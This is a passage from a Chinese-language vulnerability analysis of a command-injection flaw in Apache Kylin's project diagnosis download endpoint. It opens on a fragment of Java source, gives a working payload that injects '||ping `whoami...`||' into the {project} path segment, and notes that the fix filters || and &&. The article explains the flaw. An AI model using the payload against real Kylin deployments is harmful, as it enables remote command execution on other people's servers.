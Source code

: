 ```
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

这样我们就可以通过控制` {project}` 请求就可以造成命令注入

```
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![](images/202205251607066.png)

在修复中，过滤了`||`,`&&`等符号，造成无法命令注入
